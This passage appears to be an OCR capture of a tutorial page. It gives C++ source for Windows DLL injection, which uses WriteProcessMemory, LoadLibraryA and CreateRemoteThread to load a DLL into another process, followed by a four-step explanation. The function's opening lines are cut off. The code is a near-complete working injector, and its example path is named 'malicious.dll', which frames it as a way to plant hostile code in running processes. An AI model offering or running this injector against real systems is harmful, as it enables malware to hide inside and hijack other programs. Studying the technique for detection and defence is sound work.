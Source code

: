 ```cpp
    // Write the DLL path into the target process's memory
    if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath, strlen(dllPath) + 1, NULL)) {
        std::cout << "Failed to write DLL path to target process memory." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    // Get the address of LoadLibraryA
    HMODULE hKernel32 = GetModuleHandle("kernel32.dll");
    LPVOID pLoadLibrary = (LPVOID)GetProcAddress(hKernel32, "LoadLibraryA");

    // Create a remote thread to call LoadLibraryA with the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        std::cout << "Failed to create remote thread." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return true;
}

int main() {
    DWORD processID = 1234;  // Replace with the target process ID
    const char* dllPath = "C:\\path\\to\\your\\malicious.dll";

    if (InjectDLL(processID, dllPath)) {
        std::cout << "DLL injected successfully!" << std::endl;
    } else {
        std::cout << "DLL injection failed." << std::endl;
    }

    return 0;
}
```

#### Explanation
1. OpenProcess: Gets a handle to the target process using its PID.
2. VirtualAllocEx: Allocates memory inside the target process for storing the path to the DLL.
3. WriteProcessMemory: Writes the DLL path into the allocated memory.
4. CreateRemoteThread: Calls `LoadLibrary` inside the target process to load the DLL.
